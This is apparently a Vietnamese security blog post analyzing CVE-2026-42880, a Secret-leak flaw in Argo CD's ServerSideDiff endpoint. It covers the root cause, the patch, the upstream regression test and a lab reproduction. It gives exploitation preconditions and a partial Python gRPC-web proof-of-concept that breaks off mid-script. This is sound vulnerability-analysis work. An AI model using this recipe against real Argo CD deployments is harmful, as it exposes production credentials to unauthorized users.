

# CVE-2026-42880 - Argo CD ServerSideDiff Secret Extraction


> `CVE-2026-42880` là một lỗ hổng lộ lọt Kubernetes Secret trong Argo CD.
> Điểm nguy hiểm không nằm ở chỗ Argo CD "không biết che Secret", mà ở chỗ endpoint `ServerSideDiff` lại đứng ngoài cơ chế masking vốn đã có sẵn.
> Bình thường, một lớp phòng vệ phụ tên `removeWebhookMutation()` thường làm cho dữ liệu trông có vẻ an toàn. Nhưng khi `Application` bật `IncludeMutationWebhook=true`, lớp phòng vệ này bị tắt, và kết quả SSA dry-run có thể mang theo Secret thật đi thẳng ra API response.

## Mở bài

Trong nhiều tổ chức, Argo CD được xem như một lớp quan sát tương đối an toàn. Đội ngũ vận hành có thể cấp cho developer hoặc đối tác bên thứ ba quyền `read-only` để theo dõi trạng thái ứng dụng mà không cần lo họ nhìn thấy dữ liệu nhạy cảm trong Kubernetes `Secret`. Cảm giác an toàn đó đến từ một giả định rất mạnh: Argo CD đã mask Secret ở UI, ở CLI và ở hầu hết các API quen thuộc.

`CVE-2026-42880` cho thấy giả định đó có thể sai.

Bề ngoài, đây giống một bug đơn giản: `ServerSideDiff` trả dữ liệu Secret mà quên che lại. Nhưng nếu chỉ dừng ở cách hiểu đó thì chưa đủ. Điều đáng nói hơn là Argo CD thực ra đã có policy bảo vệ đúng, chỉ có điều endpoint nguy hiểm nhất trong luồng diff lại đứng ngoài policy đó. Nó còn vô tình dựa vào một lớp phòng vệ phụ thay vì tự đảm bảo rằng mọi response chứa `Secret` đều phải bị mask trước khi rời server.

Đây là lý do mình chọn CVE này làm một case study điển hình cho ba chủ đề:

1. lỗi trust boundary
2. defense-in-depth bị dùng nhầm thành defense chính
3. bản vá không chỉ che lại dữ liệu mà còn siết luôn identity validation và object membership

## 1. Một case study rất sát thực tế

Hãy hình dung một công ty fintech đang dùng Argo CD để quản lý dịch vụ `payment-gateway` trên Kubernetes. Ứng dụng này chạy trong namespace `production` và sử dụng một `Secret` tên `db-credentials` để lưu thông tin kết nối đến cơ sở dữ liệu PostgreSQL production.

Trong `Secret` đó có những trường như:

- `POSTGRES_USER`
- `POSTGRES_PASSWORD`

Về mặt phân quyền, một tài khoản như `bob` chỉ được cấp quyền đọc trạng thái ứng dụng trong Argo CD. Bob không có quyền sửa `Application`, không có quyền truy cập trực tiếp vào Kubernetes cluster, và càng không có quyền dùng `kubectl get secret` để xem dữ liệu nhạy cảm.

Trong điều kiện bình thường, mô hình này trông khá an toàn. Nếu Bob mở UI của Argo CD hoặc gọi các API thông thường để xem `db-credentials`, dữ liệu nhạy cảm chỉ hiện dưới dạng `+++++`. Từ góc nhìn của đội vận hành, Bob chỉ có quyền “xem tình trạng ứng dụng”, chứ không thể lấy được bí mật thật.

Vấn đề bắt đầu khi đội DevOps bật annotation sau trên `Application`:

```yaml
metadata:
  annotations:
    argocd.argoproj.io/compare-options: ServerSideDiff=true,IncludeMutationWebhook=true
```

Lý do bật cấu hình này là hoàn toàn hợp lý về mặt vận hành. Trong những môi trường có mutation webhook hoặc nhiều controller cùng can thiệp vào resource, `ServerSideDiff` giúp Argo CD tính diff sát thực tế hơn. Tuy nhiên, chính cấu hình đó lại làm vô hiệu hóa một lớp phòng vệ phụ trong luồng xử lý diff.

Để lỗ hổng xuất hiện đầy đủ, còn một điều kiện kỹ thuật nữa: phần `.data` của `Secret` không chỉ do `argocd-controller` quản lý, mà còn có thêm một SSA field manager khác cùng sở hữu, ví dụ External Secrets Operator, Helm, hoặc một lần `kubectl apply --server-side` từ nơi khác. Khi điều kiện này thỏa mãn, kết quả SSA dry-run có thể giữ lại dữ liệu thật của `Secret` trong object dự đoán.

Từ đây, Bob không cần dựa vào giao diện web nữa. Thay vào đó, Bob gọi trực tiếp endpoint `ServerSideDiff` của Argo CD và gửi một request diff tối giản cho chính `Secret` `db-credentials`.

Luồng xử lý diễn ra như sau:

1. Bob lấy `liveState` đã bị mask từ `ManagedResources`.
2. Bob dựng một `targetManifest` tối giản cho `db-credentials`, cố ý không chứa trường `.data`.
3. Argo CD nhận request và chuyển nó xuống Kubernetes API Server dưới dạng **Server-Side Apply dry-run** để tính `predictedLive`.
4. Kubernetes API Server tính toán trạng thái dự đoán dựa trên dữ liệu thật đang tồn tại trên cluster.
5. Vì `IncludeMutationWebhook=true`, lớp phòng vệ phụ `removeWebhookMutation()` bị bỏ qua.
6. Ở bản vulnerable, `ServerSideDiff` trả thẳng `PredictedLive` và `NormalizedLive` vào response mà không gọi lại `HideSecretData()`.

Kết quả là Bob, dù chỉ có quyền `read-only` trên Argo CD, vẫn có thể nhận được phản hồi chứa dữ liệu như:

```json
"data": {
  "POSTGRES_USER": "YWRtaW4=",
  "POSTGRES_PASSWORD": "U3VwZXJTZWNyZXREYlBhc3N3b3JkMjAyNiE="
}
```

Chỉ cần giải mã Base64, Bob sẽ thu được mật khẩu database production.

Điểm đáng chú ý ở đây là Bob không hề cần:

- quyền sửa ứng dụng
- quyền truy cập trực tiếp vào cluster
- quyền đọc `Secret` bằng Kubernetes API
- hay bất kỳ đặc quyền quản trị nào

Tất cả những gì Bob cần chỉ là:

- quyền đọc `Application`
- một endpoint diff bị đặt sai boundary
- và một cấu hình hợp lệ vô tình tắt lớp phòng vệ phụ

## 2. Vì sao case study này đáng quan tâm?

Case study trên không chỉ giúp hình dung tác động của `CVE-2026-42880`, mà còn chỉ ra một bài học kiến trúc quan trọng:

> Một hệ thống có thể che dữ liệu đúng ở 9 endpoint, nhưng chỉ cần 1 endpoint đặc biệt đứng ngoài cơ chế đó, toàn bộ giả định an toàn trước đây có thể sụp đổ.

Với CVE này, vấn đề không nằm ở chỗ Argo CD thiếu cơ chế masking, mà ở chỗ `ServerSideDiff` đi theo một luồng tính toán khác, nhận dữ liệu từ SSA dry-run của Kubernetes, rồi cuối cùng trả kết quả ra ngoài mà không áp dụng lại policy che `Secret`.

Trong các phần tiếp theo, mình sẽ lần theo đúng luồng xử lý đó để trả lời ba câu hỏi:

1. `PredictedLive` thực chất được tạo ra từ đâu?
2. Vì sao `removeWebhookMutation()` chỉ là một lớp phòng vệ phụ chứ không phải fix thật sự?
3. Và chính xác bản vá đã sửa ở đâu để chặn việc Secret bị rò rỉ qua `ServerSideDiff`?

> [!info] Điều kiện khai thác
> Để tái hiện được bug ổn định, bạn thường cần đủ các điều kiện sau:
> - User có quyền `get` đối với Application trong Argo CD
> - Ứng dụng có bật `IncludeMutationWebhook=true`
> - Secret mục tiêu có thêm một SSA field manager khác ngoài `argocd-controller` đang giữ ownership trên `.data`

Trước khi đi sâu vào root cause, có 4 khái niệm cần nắm rất nhanh. `ServerSideDiff` là cơ chế Argo CD dùng để nhờ Kubernetes dự đoán trạng thái tài nguyên sau khi apply, thay vì chỉ so sánh manifest theo kiểu tĩnh. `Server-Side Apply` (SSA) là cơ chế Kubernetes theo dõi quyền sở hữu từng field thông qua `field manager`, và dấu vết đó có thể quan sát trong `managedFields`. Trong CVE này, điểm quan trọng là kết quả diff chứa hai trường `PredictedLive` và `NormalizedLive`; nếu các trường đó mang theo dữ liệu `Secret` thật mà response không mask lại, lỗ hổng sẽ xuất hiện ngay tại đây.

## 3. Tại sao các endpoint khác an toàn còn `ServerSideDiff` thì không?

Đây là chỗ người đọc rất dễ bị lẫn giữa “Argo CD có cơ chế che Secret” và “Argo CD che Secret đúng ở mọi nơi”.

Trong thực tế, Argo CD không phải một hệ thống hoàn toàn thiếu logic bảo vệ. Ngược lại, có khá nhiều endpoint đã gọi `HideSecretData()` hoặc cơ chế tương đương trước khi trả dữ liệu về client:

- `GetManifests`
- `GetManifestsWithFiles`
- `GetResource`
- cache `managedResources` do controller chuẩn bị

Điều đó có nghĩa là về mặt policy tổng quát, hệ thống vẫn đúng: `Secret` trước khi đi ra ngoài phải được che.

Vấn đề là `ServerSideDiff` ở bản vulnerable lại đi theo một nhánh khác. Nó không dùng lại đúng choke point an toàn giống các endpoint trên, mà tự build response theo cách riêng và trả thẳng:


```go
TargetState: string(diffRes.PredictedLive),
LiveState:   string(diffRes.NormalizedLive),
```

Chính hai dòng này biến bug thành leak thật sự.

Vấn đề không còn là "Argo CD có hàm mask hay không", mà là:

> endpoint này không đi qua choke point an toàn giống các endpoint còn lại.

## 4. Root cause thật sự nằm ở đâu?

### Root cause chính: endpoint trả raw diff mà không mask lại Secret

Nếu phải chỉ ra một nguyên nhân trực tiếp duy nhất, thì nó nằm ở đây.

`ServerSideDiff` nhận kết quả diff từ engine, sau đó build `ResourceDiff` để trả về cho client. Ở bản lỗi, bước build response này không có nhánh nào gọi `HideSecretData()`.


Điều đó có nghĩa là nếu phía dưới đã trả lên một object `Secret` chứa dữ liệu thật, server sẽ chuyển nguyên object đó thành chuỗi JSON và ném trả về cho người dùng. Primitive bảo vệ đã có sẵn trong codebase, nhưng endpoint này lại đứng ngoài primitive đó.

###  Root cause thứ hai:

Nếu chỉ dừng ở mục trên, câu hỏi tiếp theo sẽ là:

> "Nếu endpoint này nguy hiểm như vậy, tại sao lỗi không lộ ra sớm hơn ở mọi case?"

Câu trả lời nằm ở `removeWebhookMutation()`.


Trong flow của `gitops-engine`, sau khi chạy SSA dry-run, Argo CD có thể gọi `removeWebhookMutation()` để bỏ bớt những phần không do Argo CD quản lý rồi trộn kết quả với `live` state phía client.


Hiệu ứng phụ của chuyện này là dữ liệu thật từ dry-run có thể bị ghi đè hoặc trộn lại bằng dữ liệu đã mask ở phía client, khiến response nhìn bề ngoài vẫn có vẻ “an toàn”.

Đây là một lớp defense-in-depth tốt. Nhưng nó không được sinh ra để làm control chính cho Secret masking. Khi một hệ thống dựa vào side-effect của một lớp phòng vệ phụ để giữ an toàn cho security boundary chính, bug kiểu này gần như chỉ còn là vấn đề thời gian.

### Trigger khiến bug lộ hẳn: `IncludeMutationWebhook=true`

`ServerSideDiff` build diff config với logic:


```go
WithIgnoreMutationWebhook(
    !resourceutil.HasAnnotationOption(
        a,
        argocommon.AnnotationCompareOptions,
        "IncludeMutationWebhook=true",
    ),
)
```

Nghĩa là:
- nếu app không bật `IncludeMutationWebhook=true`, Argo CD sẽ cố loại bỏ mutation không thuộc phần nó quản lý
- nếu app bật annotation đó, lớp phòng vệ bị tắt hoàn toàn

Và lúc này bug chain hoàn chỉnh mới hiện ra rõ ràng:

1. SSA dry-run tạo `PredictedLive`
2. `removeWebhookMutation()` không chạy
3. `ServerSideDiff` lại không mask response
4. Secret thật có thể đi ra ngoài

Đây là lý do tại sao advisory không chỉ nói về “masking gap”, mà còn nhấn mạnh điều kiện `IncludeMutationWebhook=true`. Nếu chỉ nói “Argo CD quên mask Secret” thì vẫn đúng, nhưng sẽ bỏ lỡ phần thú vị nhất của bug chain: có một cấu hình hợp lệ cho phép tắt lớp phòng vệ phụ, và chính điều đó làm lộ ra vai trò thật của response layer.

## 5. Trace code phân tích lỗ hổng

### 5.1. Request đi vào từ đâu?

REST gateway map route ở `pkg/apiclient/application/application.pb.gw.go`.
Handler thật nằm trong `server/application/application.go`, 

hàm `ServerSideDiff(...)`.

Đây là entry point của bug. Nó là điểm cố định để nối toàn bộ câu chuyện: request đi vào từ đây, diff config cũng được build từ đây, và response cuối cùng cũng rời server từ đây.


### 5.2. CLI hợp lệ dùng endpoint này như thế nào?

CLI `argocd app diff --server-side-diff` không gửi bừa dữ liệu. Nó đi theo một quy trình hợp lệ:

1. gọi `ManagedResources`
2. lấy `liveState` đã được Argo CD xử lý
3. align `liveResource` và `targetManifest`
4. gửi sang `ServerSideDiff`

Điểm này rất quan trọng khi giải thích PoC. PoC không cần phát minh ra giao thức kỳ lạ hay tận dụng một đường đi “ngầm” nào cả. Nó chỉ tái sử dụng đúng endpoint hợp lệ mà Argo CD đã expose sẵn, nhưng điều khiển input sao cho server lộ ra bug của chính nó.

### 5.3. Vì sao `ManagedResources` không lộ mà `ServerSideDiff` lại lộ?

Vì `ManagedResources` lấy dữ liệu từ cache đã được controller mask từ trước.

Nói đơn giản, `ManagedResources` trả về bản đã được controller xử lý từ trước, còn `ServerSideDiff` lại trả về kết quả vừa mới tính xong từ luồng SSA dry-run. Chính sự chênh lệch này làm bug dễ bị bỏ sót khi review: một endpoint “đọc cache” an toàn không có nghĩa endpoint “tính toán lại live state” cũng sẽ an toàn.


### 5.4. Chỗ Secret thật chui vào response

Luồng tối giản nên kể như sau:

1. `ServerSideDiff()` unmarshal `liveResources` và `targetManifests`
2. hàm này gọi `argodiff.StateDiffs(...)`
3. `StateDiffs` đi xuống `gitops-engine/pkg/diff/serverSideDiff()`
4. `serverSideDiff()` chạy SSA dry-run
5. nếu `removeWebhookMutation()` bị bỏ qua, `PredictedLive` giữ nguyên dữ liệu thật
6. handler build response và trả `TargetState` / `LiveState`

Nếu muốn người đọc hình dung tốt hơn, bạn có thể chèn một sơ đồ đơn giản:




## 6. Patch `v3.3.9` sửa những gì?

Đây là đoạn blog nên viết như một “bản vá nhiều lớp”, chứ không phải như một hunk diff thêm vài dòng.

### 6.1. Vá trực tiếp chỗ lộ dữ liệu

Patch thêm logic:


- parse `PredictedLive` và `NormalizedLive`
- nếu resource là `Secret`, gọi `diff.HideSecretData(...)`
- marshal ngược lại rồi mới gán vào response

Đây là fix trực tiếp nhất và cũng là fix bám sát bản chất lỗ hổng nhất.

### 6.2. Siết identity validation

Patch còn thêm check:


- `name`
- `namespace`
- `group`
- `kind`

giữa metadata do client khai báo và object thật trong `liveState`.

Điểm này không trực tiếp tạo ra bug Secret leak ban đầu, nhưng nó bịt một trust-boundary problem khác rất dễ bị bỏ qua: client không thể khai metadata một đằng nhưng nhét object khác vào phần JSON thật sự được server xử lý.

### 6.3. Siết object membership

Patch kéo `managedResources` từ cache rồi kiểm tra resource được yêu cầu diff có thực sự thuộc về Application hiện tại hay không.


Nếu không thuộc app, server trả `PermissionDenied`.


Đây là hardening rất đáng giá vì nó biến endpoint từ một chỗ “tin dữ liệu client khá nhiều” thành một chỗ có whitelist dựa trên state thật của Application.

## 7. Upstream có PoC trong repo không?

Có thứ còn tốt hơn một PoC rời: **regression test**.


- `test/e2e/mask_secret_values_test.go`

Test này tái hiện bug theo đúng hướng thực chiến:

```
  

// TestServerSideDiffMasksSecretData is a regression test for a CVE where the

// ServerSideDiff endpoint returned plaintext Kubernetes Secret values from etcd.

func TestServerSideDiffMasksSecretData(t *testing.T) {

    closer, client, err := ArgoCDClientset.NewApplicationClient()

    require.NoError(t, err)

    defer utilio.Close(closer)

  

    Given(t).

        Path("secrets").

        When().

        CreateApp().

        Sync().

        Then().

        Expect(SyncStatusIs(SyncStatusCodeSynced)).

        And(func(app *Application) {

            ns := app.Spec.Destination.Namespace

  

            // Establish a second SSA field manager owning the secret's data field.

            // Without a second manager, argocd-controller is the sole owner and the

            // SSA dry-run garbage-collects the data fields (since the target manifest

            // omits them). A second manager retains ownership, so the real values

            // survive in the dry-run response — the exact condition required for the

            // CVE to be exploitable.

            secretPatch := fmt.Sprintf(

                `{"apiVersion":"v1","kind":"Secret","metadata":{"name":"test-secret","namespace":%q},"data":{"username":%q}}`,

                ns,

                base64.StdEncoding.EncodeToString([]byte("test-username")),

            )

            _, err := KubeClientset.CoreV1().Secrets(ns).Patch(

                t.Context(),

                "test-secret",

                types.ApplyPatchType,

                []byte(secretPatch),

                metav1.PatchOptions{FieldManager: "test-manager"},

            )

            require.NoError(t, err)

  

            // Annotate the app with IncludeMutationWebhook=true — the condition that

            // bypasses removeWebhookMutation() and exposed real etcd values in the response.

            _, err = RunCli("app", "patch", app.Name,

                "--patch", `{"metadata":{"annotations":{"argocd.argoproj.io/compare-options":"IncludeMutationWebhook=true"}}}`,

                "--type", "merge",

            )

            require.NoError(t, err)

  

            // Fetch the masked live state as ArgoCD sees it.

            // This is the same data an attacker would read from managed-resources

            // before crafting the ServerSideDiff request.

            resources, err := client.ManagedResources(t.Context(), &applicationpkg.ResourcesQuery{

                ApplicationName: &app.Name,

            })

            require.NoError(t, err)

  

            var secretLiveState string

            for _, r := range resources.Items {

                if r.Kind == "Secret" && r.Name == "test-secret" {

                    secretLiveState = r.LiveState

                    break

                }

            }

            require.NotEmpty(t, secretLiveState, "test-secret not found in managed resources")

  

            // Build a minimal target manifest with no data field — exactly what the

            // exploit sends to force the SSA dry-run to return data owned by the

            // second field manager (i.e., real etcd values).

            target, err := json.Marshal(map[string]any{

                "apiVersion": "v1",

                "kind":       "Secret",

                "metadata":   map[string]any{"name": "test-secret", "namespace": ns},

                "type":       "Opaque",

            })

            require.NoError(t, err)

  

            resp, err := client.ServerSideDiff(t.Context(), &applicationpkg.ApplicationServerSideDiffQuery{

                AppName: &app.Name,

                Project: &app.Spec.Project,

                LiveResources: []*ResourceDiff{{

                    Kind:      "Secret",

                    Namespace: ns,

                    Name:      "test-secret",

                    LiveState: secretLiveState,

                    Modified:  true,

                }},

                TargetManifests: []string{string(target)},

            })

            require.NoError(t, err)

            require.NotEmpty(t, resp.Items, "expected at least one diff item in response")

  

            for _, item := range resp.Items {

                if item.Kind != "Secret" {

                    continue

                }

                assertServerSideDiffSecretMasked(t, item.TargetState, "targetState")

                assertServerSideDiffSecretMasked(t, item.LiveState, "liveState")

            }

        })

}

  

// assertServerSideDiffSecretMasked verifies that every value in the data field of the

// given secret JSON manifest consists only of '+' characters (ArgoCD's masking format).

func assertServerSideDiffSecretMasked(t *testing.T, manifest, field string) {

    t.Helper()

    if manifest == "" || manifest == "null" {

        return

    }

    obj := &unstructured.Unstructured{}

    require.NoError(t, obj.UnmarshalJSON([]byte(manifest)), "failed to parse %s as JSON", field)

  

    data, hasData, err := unstructured.NestedStringMap(obj.Object, "data")

    require.NoError(t, err)

    if !hasData || len(data) == 0 {

        return

    }

    for k, v := range data {

        assert.Regexp(t, `^\++$`, v,

            "%s: secret key %q must be masked with '+' characters, got %q", field, k, v)

    }

}
```

1. tạo app với `Secret`
2. tạo thêm một SSA field manager thứ hai sở hữu `.data`
3. bật `IncludeMutationWebhook=true`
4. lấy `liveState` đã mask từ `ManagedResources`
5. dựng `targetManifest` tối giản, cố ý bỏ `.data`
6. gọi `ServerSideDiff`
7. assert rằng bản đã vá chỉ trả `+++++`

Theo mình, nếu bạn muốn viết bài “đọc patch để hiểu bug”, thì regression test là mỏ vàng hơn cả advisory vì nó bộc lộ đúng precondition khai thác, chứ không chỉ xác nhận rằng upstream đã thêm vài dòng code masking.

## Dựng môi trường và tái hiện CVE-2026-42880

Sau khi lần theo root cause và hiểu được vai trò của `ServerSideDiff` trong bug chain, bước tiếp theo của mình là kiểm chứng một điều rất cụ thể: liệu dữ liệu `Secret` có thực sự thoát khỏi cơ chế masking của Argo CD trong điều kiện phù hợp hay không.

Mục tiêu của lab này không phải dựng một hệ thống GitOps hoàn chỉnh, mà chỉ tạo ra vừa đủ những điều kiện cần thiết để lỗ hổng xuất hiện một cách rõ ràng và có thể quan sát được. Nói cách khác, đây là một lab để xác nhận giả thuyết kỹ thuật, không phải một mô hình production thu nhỏ.

Mình bắt đầu với một cluster Kubernetes chạy bằng Kind và cài đặt Argo CD phiên bản `3.3.8`, tức là phiên bản vẫn còn chứa lỗ hổng. Sau khi Argo CD hoạt động ổn định và đăng nhập thành công, mình tạo một `Application` đơn giản quản lý một Kubernetes `Secret` trong namespace `demo`.

Giữ terminal này chạy. Mở một terminal khác để lấy mật khẩu admin và login:


Đến đây, dấu hiệu thành công là:

- mở được UI ở `https://localhost:8080` hoặc
- CLI `argocd app list` không báo lỗi auth


Ở thời điểm này, mọi thứ vẫn vận hành đúng như thiết kế. Nếu xem `Secret` thông qua những luồng thông thường của Argo CD, dữ liệu nhạy cảm luôn bị thay thế bằng chuỗi `+++++`. Chi tiết này rất quan trọng, vì nó xác nhận rằng cơ chế masking mặc định của Argo CD vẫn đang hoạt động bình thường. Nói cách khác, bug không nằm ở toàn bộ hệ thống hiển thị `Secret`, mà nằm ở một nhánh xử lý đặc biệt hơn.

Trước khi bật trigger của CVE, mình muốn tự chứng minh rằng Argo CD ở các luồng xử lý thông thường vẫn bảo vệ dữ liệu Secret đúng cách. Bước này rất quan trọng vì nó giúp tách biệt rõ giữa hành vi bình thường và hành vi chỉ xuất hiện khi đi vào nhánh lỗi của `ServerSideDiff`.

Sau khi sync application, có thể mở giao diện Argo CD hoặc xem các resource được quản lý bởi application:

```
argocd app resources ssdiff-lab
```

Hoặc xem trực tiếp trong UI tại trang Application.

Trong các luồng này, dữ liệu Secret sẽ không được hiển thị nguyên vẹn cho người dùng. Đây chính là baseline ban đầu của hệ thống: Secret tồn tại trong cluster với dữ liệu thật, nhưng Argo CD không trả về trực tiếp các giá trị đó qua các giao diện thông thường.

Mốc này rất quan trọng vì ở phần sau mình sẽ chứng minh rằng dữ liệu Secret vẫn có thể xuất hiện trở lại khi đi qua nhánh xử lý `ServerSideDiff`.


Điểm mấu chốt của CVE này chỉ xuất hiện khi kết quả `Server-Side Apply dry-run` giữ lại dữ liệu thật của `Secret` trong trạng thái dự đoán, tức `predicted live state`. Qua phần đọc source code và so sánh patch, mình nhận ra muốn ép Kubernetes đi theo hướng đó thì chỉ riêng `argocd-controller` là chưa đủ. Mình cần tạo thêm một SSA field manager thứ hai để trường `.data` của `Secret` không còn chỉ thuộc về Argo CD.

Vì vậy, mình áp dụng thêm một patch bằng `server-side apply` với field manager tên `test-manager`. Sau bước này, nếu mở `managedFields` của `Secret`, có thể thấy object không còn chỉ do `argocd-controller` quản lý nữa, mà đã xuất hiện thêm `test-manager`.

```
managedFields:
- manager: test-manager
  operation: Apply

- manager: argocd-controller
  operation: Update
```

Đây là điều kiện tiên quyết quan trọng nhất của lab. Nếu bỏ qua bước này, `SSA dry-run` thường sẽ không giữ lại dữ liệu theo cách cần thiết để bug xuất hiện rõ ràng. Nói cách khác, đây không phải một chi tiết phụ, mà là mảnh ghép làm cho `predicted live state` có cơ hội mang theo giá trị thật của `Secret`.

Sau đó, mình bật annotation sau trên `Application`:

```
argocd.argoproj.io/compare-options: ServerSideDiff=true,IncludeMutationWebhook=true
```

Annotation này có hai tác dụng cùng lúc. Thứ nhất, nó ép Argo CD đi vào luồng `ServerSideDiff` thay vì cơ chế diff truyền thống. Thứ hai, `IncludeMutationWebhook=true` làm vô hiệu hóa lớp phòng vệ phụ vốn có khả năng làm “an toàn hóa” một phần kết quả dry-run bằng cách loại bỏ hoặc trộn lại những field không thuộc phần Argo CD quản lý.

Đến đây, môi trường đã đáp ứng đủ những điều kiện mà advisory mô tả:

- Argo CD đang ở phiên bản vulnerable
- `Secret` có nhiều hơn một SSA field manager
- `ServerSideDiff` đã được bật
- `IncludeMutationWebhook` cũng đã được bật

Trước khi đi sâu vào API, mình thử kiểm tra hành vi của Argo CD bằng những giao diện quen thuộc, chẳng hạn:

```
argocd app diff ssdiff-lab --server-side-diff
```

Trong lab của mình, lệnh này không đưa ra một bằng chứng đủ rõ ràng để kết luận ngay rằng `Secret` đã bị lộ. Điều đó thực ra không bất ngờ, vì phần lớn giao diện và command layer của Argo CD vẫn cố gắng giữ trải nghiệm an toàn cho người dùng, kể cả khi bug nằm sâu hơn trong API layer.

Vì vậy, mình chuyển sang cách kiểm tra sát với bản chất lỗ hổng hơn: gọi trực tiếp RPC

```
application.ApplicationService/ServerSideDiff
```

PoC của mình đi theo đúng flow thực tế của bug.

Đầu tiên, nó gọi `ManagedResources` để lấy `liveState` của `Secret`. Điểm đáng chú ý là `liveState` này vẫn là bản đã bị mask, tức là nếu chỉ nhìn vào đây thì chưa có gì bất thường.

Tiếp theo, PoC dựng một `target manifest` tối giản cho chính `Secret` đó, nhưng cố ý bỏ trường `.data`. Mục tiêu của bước này là buộc Kubernetes tự suy ra trạng thái dự đoán thông qua `Server-Side Apply dry-run`, thay vì chỉ phản chiếu lại nguyên xi dữ liệu do client gửi lên.

Cuối cùng, PoC gửi request `ServerSideDiff` và đọc giá trị `TargetState` trong response.

Đây chính là khoảnh khắc quyết định của toàn bộ lab.

Theo một thiết kế an toàn, dữ liệu `Secret` lẽ ra phải bị masking trước khi quay trở lại client. Nhưng ở phiên bản vulnerable, `TargetState` vẫn chứa nguyên dữ liệu thật được giữ lại trong predicted state. Khi PoC in response ra, mình thấy rõ:

```
{
  "data": {
    "password": "dGVzdC1wYXNzd29yZA==",
    "username": "dGVzdC11c2VybmFtZQ=="
  }
}
```

Nếu giải mã Base64, kết quả nhận được là:

```
password = test-password
username = test-username
```

Đến đây, bằng chứng đã đủ rõ. Dữ liệu nhạy cảm không còn nằm sau lớp masking quen thuộc của Argo CD, mà đã đi xuyên qua `ServerSideDiff` và xuất hiện trong phản hồi API dưới dạng giá trị thật.

Điều đáng lưu ý là bug này không xuất hiện chỉ vì Kubernetes `Secret` “không an toàn”, và cũng không phải vì Argo CD hoàn toàn thiếu logic masking. Nguyên nhân nằm ở sự kết hợp giữa bốn yếu tố tưởng chừng độc lập:

- `Server-Side Apply`
- nhiều field manager cùng sở hữu trường dữ liệu
- `ServerSideDiff`
- `IncludeMutationWebhook=true`

Khi bốn điều kiện đó cùng xuất hiện, dữ liệu `Secret` có thể được giữ lại trong `predicted state` và bị trả về cho client trước khi tầng response kịp áp dụng đúng cơ chế masking.

Nói ngắn gọn, lab này xác nhận đúng điều mà phần patch diff đã gợi ý từ đầu: lỗ hổng không nằm ở chỗ Argo CD không biết che `Secret`, mà nằm ở chỗ một endpoint đặc biệt đã để kết quả `SSA dry-run` đi ra ngoài mà không buộc nó quay lại đúng security boundary.


### Viết một PoC để gọi `ServerSideDiff`

Thay vì dùng repo PoC ngoài, mình khuyên dùng một script ở trong repo này https://github.com/argoproj/argo-cd/security/advisories/GHSA-3v3m-wc6v-x4x3. Script dưới đây làm đúng ba việc:

1. gọi `ManagedResources` để lấy `liveState` đã mask của `test-secret`
2. dựng một `targetManifest` tối giản, cố ý bỏ `.data`
3. gọi `ServerSideDiff` qua gRPC-web và in ra `TargetState`

Tạo file `poc.py`:

```
#!/usr/bin/env python3
import base64
import http.client
import json
import ssl
import struct
import sys
import urllib.parse
from collections import defaultdict

HOST = "localhost"
PORT = 8080
TOKEN = sys.argv[1]
APP_NAME = "ssdiff-lab"
PROJECT = "default"
SECRET_NAME = "test-secret"
SECRET_NAMESPACE = "demo"

def encode_varint(v):
    out = []
    while v > 0x7f:
        out.append((v & 0x7f) | 0x80)
        v >>= 7
    out.append(v & 0x7f)
    return bytes(out)

def encode_str(field, val):
    tag = (field << 3) | 2
    raw = val.encode()
    return encode_varint(tag) + encode_varint(len(raw)) + raw

def encode_bytes(field, val):
    tag = (field << 3) | 2
    return encode_varint(tag) + encode_varint(len(val)) + val

def encode_bool(field, val):
    tag = (field << 3) | 0
    return encode_varint(tag) + encode_varint(1 if val else 0)

def decode_varint(data, pos):
    val, shift = 0, 0
    while pos < len(data):
        b = data[pos]
        pos += 1
        val |= (b & 0x7f) << shift
        shift += 7
        if not (b & 0x80):
            break
    return val, pos

def decode_fields(data):
    fields = defaultdict(list)
    pos = 0
    while pos < len(data):
        tag, pos = decode_varint(data, pos)
        wtype = tag & 0x07
        if wtype == 0:
            val, pos = decode_varint(data, pos)
            fields[tag >> 3].append(val)
        elif wtype == 2:
            length, pos = decode_varint(data, pos)
            fields[tag >> 3].append(data[pos:pos + length])
            pos += length
        elif wtype == 5:
            fields[tag >> 3].append(data[pos:pos + 4])
            pos += 4
        elif wtype == 1:
            fields[tag >> 3].append(data[pos:pos + 8])
            pos += 8
        else:
            break
    return dict(fields)

def grpc_frame(payload):
    return b"\x00" + struct.pack(">I", len(payload)) + payload

def decode_grpc_frames(data):
    frames, pos = [], 0
    while pos + 5 <= len(data):
        flag = data[pos]
        length = struct.unpack(">I", data[pos + 1:pos + 5])[0]
        pos += 5
        frames.append((flag, data[pos:pos + length]))
        pos += length
    return frames

def make_conn():
    ctx = ssl._create_unverified_context()
    return http.client.HTTPSConnection(HOST, PORT, context=ctx, timeout=10)

def rest_get(conn, path, token):
    conn.request("GET", path, headers={
        "Authorization": "Bearer " + token,
        "Accept": "application/json",
    })
    resp = conn.getresponse()
    body = resp.read()
    if resp.status != 200:
        raise RuntimeError(f"GET {path} failed: HTTP {resp.status} {body.decode(errors='ignore')}")
    return json.loads(body)

def grpc_post(conn, token, payload):
    conn.request("POST", "/application.ApplicationService/ServerSideDiff",
        body=grpc_frame(payload),
        headers={
            "Content-Type": "application/grpc-web+proto",
            "Accept": "application/grpc-web+proto",
            "X-Grpc-Web": "1",
            "Authorization": "Bearer " + token,
        })
    resp = conn.getresponse()
    raw = resp.read()
    if resp.status != 200:
        raise RuntimeError(f"gRPC-web failed: HTTP {resp.status} {raw.decode(errors='ignore')}")
    frames = decode_grpc_frames(raw)
    for flag, fdata in frames:
        if flag == 0:
            return fdata
    raise RuntimeError("no gRPC data frame found")

conn = make_conn()
